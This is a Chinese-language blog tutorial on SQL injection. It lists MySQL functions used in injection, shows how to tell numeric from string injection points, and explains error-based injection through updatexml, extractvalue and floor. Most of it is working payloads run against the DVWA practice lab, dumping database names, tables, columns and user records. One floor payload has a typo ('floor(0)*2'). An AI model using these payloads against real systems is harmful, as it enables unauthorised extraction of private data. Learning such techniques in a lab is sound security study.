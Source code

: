 # SQL注入篇


# SQL 注入篇

## SQL 注入常用函数

1. 联合注入函数:
   - concat()
   - concat_ws()
   - group_concat()
2. 布尔盲注函数:
   - length()
   - left()
   - right()
   - substr()
   - mid()
   - ascii()
   - ord()
3. 时间盲注函数:
   - sleep()
   - if()
4. 报错注入函数:
   - floor()
   - exp()
   - updatexml()
   - extractvalue()


## (一)注入类型

SQL 注入通常分为两种类型：数字型和字符型

### (1)注入类型为数字型时，SQL 查询语句通常为：

` select * from users where id = x`

判断方法：

```sql
1. ?id = 1 and 1 = 1 --+ 若无报错，继续下一步
2. ?id = 1 and 1 = 2 --+ 若报错， 则注入类型为数字型
```

### (2)注入类型为字符型时，SQL 查询语句通常为：

`select * from users where id = '1'`

判断方法：

```sql
1. ?id = 1' and '1' = '1 --+ 若无报错，继续下一步
2. ?id = 1' and '1' = '2 --+ 若报错， 则注入类型为字符型
```

## (二)报错注入

### 一、SQL 报错注入常用函数：

**updatexml（）**、**extractvalue（）**、**floor（）**

**(1) updatexml（）函数**

- updatexml（）使用不同的 xml 标记匹配和替换 xml 块，用于改变文档中符合条件的节点的值

- 基本语法：`UPDATEXML(xml_target, xpath_expr, new_val)`，`xml_target`是要修改的 XML 类型的数据，`xpath_expr`是一个 XPath 表达式，用于指定要修改的节点位置，`new_val`是一个新的节点值，用于替换当前节点的值

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (updatexml(1,0x7e,3));`0x7e 是字符~，不属于 xpath 语法格式，因此会出现 xpath 语法错误

**(2) extractvalue（）函数**

- extractvalue（）用于从 XML 文档中提取信息

- 基本语法：`ExtractValue(XML_fragment, XPath_string)`，其中`XML_fragment`是 XML 格式的字符串，`XPath_string`是用于定位 XML 文段中特定数据的 XPath 表达式

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (extractvalue(1,0x7e));`

**(3) floor（）函数**

- floor（）利用`select count(*),(floor(rand(0)*2)) as x from 表名 group by x;`导致数据库报错，通过 concat 函数连接注入语句与 floor(rand(0)\*2)函数，实现将注入结果与报错信息回显
- count(\*) 是一个聚合函数，用来计算表中所有行的数量，floor(rand(0)\*2)产生的固定序列为：**01101**，结合 group by 会产生一个虚拟表。
- 原理：rand 伪随机函数与**order by**或**group by**函数的冲突，例如 floor(rand(0)\*2)一开始计算得到了 0，group by 根据 0 分类统计，在写入要返回的虚表时 floor(rand(0)\*2)还要计算一次结果，这次结果却是 1，导致了冲突。

### 二、updatexml 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and updatexml(1,concat(0x7e,database(),0x7e,user()),1)#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'),0x7e),1)#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/3.png)

4.爆数据库内容：`1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e),1)#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/4.png)

### 三、extractvalue 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and extractvalue(1,concat(0x7e,database(),0x7e,user()))#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())))#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')))#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/3.png)

4.爆数据库内容：`1' and extractvalue(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e))#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/4.png)

### 四、floor 函数实战 (基于 dvwa 靶场)

1.判断是否存在报错注入：`1' union select count(*),floor(rand(0)*2) x from information_schema.tables group by x#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/5.png)

确认存在报错注入

2.爆当前数据库名：`1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/6.png)

可以看到数据库名为 dvwa，1 是随机数

3.爆当前数据库表信息：`1' union select count(*),concat(floor(0)*2,0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/7.png)

4.爆数据库表中字段信息：`1' union select count(*),concat(floor(rand(0)*2),0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/8.png)

5.爆数据库内容：`1' union select count(*),concat(floor(rand(0)*2),(select group_concat(first_name,last_name) from dvwa.users)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](https://hinoatari.github.io/images/sql注入篇/9.png)


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/sql%E6%B3%A8%E5%85%A5%E7%AF%87/  

